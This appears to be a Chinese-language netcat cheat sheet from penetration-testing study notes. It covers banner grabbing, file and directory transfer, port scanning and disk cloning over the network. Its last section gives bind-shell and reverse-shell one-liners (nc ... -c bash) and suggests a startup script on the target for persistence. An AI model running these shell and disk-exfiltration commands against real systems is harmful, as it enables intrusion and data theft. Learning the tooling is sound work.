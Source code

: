 #### NC -- TELNET /BANNER
> * `nc -nv 1.1.1.1 80`, 
> 	* `-v`: 显示详细的输出内容. 
> 	* `-n`: 不进行DNS解析,后跟ip地址 
> * POP3, 端口110, 
> 	* 通过`ping pop3.163.com`获得ip地址, 进一步使用nc(需要base64编码)
> * SMTP, 端口25
> * `nc -l -p 3333`,
> 	* `-l`开启监听模式, 
> 	* `-p`指定相应端口,
> 	* `netstat -pantu | grep port`查看相应端口服务是否开启
> * 远程电子取证信息收集:
> 	* `ps aux | nc -nv 172.16.203.132 3333 -q 1`,获取进程信息并通过nc传输, 
> 	* `nc -l -p 3333 > ps.txt`, 输出重定向. 
> 	* `-q 1`是在输入完成1s后结束连接. 
> 	* `lsof`指令获取所有打开文件的信息

#### NC -- 文件传输/目录

> * 文件传输
> 	* A(作为文件接收端): `nc -lp 333 > 1.mp4`
> 	* B(作为文件发送端): `nc -nv 1.1.1.1 333 < 1.mp4 -q 1`
> 	* 或
> 	* A(作为文件发送端): `nc -q 1 -lp 333 < a.mp4`
> 	* B(作为文件接受端): `nc -nv 1.1.1.1 333 > b.mp4`
> * 传输目录(先打包,在传送)
> 	* A: `tar -cvf - ./burpsuitePro | nc -lp 3333 -q 1`
> 	* B: `nc 172.16.203.132 3333 | tar -xvf -`

#### NC -- 流媒体服务
> * A: `cat 1.mp4 | nc -lp 333 `
> * B: `nc -nv 1.1.1.1 333 | mplayer -vo x11 -cache 3000 -`

#### NC -- 端口扫描

> * `nc -nvz 1.1.1.1 1-65535`, 以TCP的方式进行扫描
> * `nc -nvzu 1.1.1.1 1-1024`, 以UDP的方式进行扫描

#### NC -- 远程克隆硬盘

> * 远程电子取证,可以将目标服务器硬盘远程复制,或者内存(/dev/mem , /dev/kmem)
> * A: `nc -lp 333 | dd of=/dev/sda`,of即outputfile, sda即硬盘数据,若有两块盘即sdb
> * B: `dd if=/dev/sda | nc -nv 1.1.1.1 333 -q 1`

#### NC -- 远程控制

> * 正向:
> 	* A: `nc -lp 3333 -c bash`
> 	* B: `nv 1.1.1.1 3333`
> * 反向:
> 	* A: `nc -lp 3333`
> 	* B: `nc 1.1.1.1 333 -c bash`
> 	* 当从外向内的流量被拦截时, 可以使用反向的方法, 在目标服务器上添加启动脚本进行连接(/etc/init.d).
> * windows 用户把 bash 改成 cmd





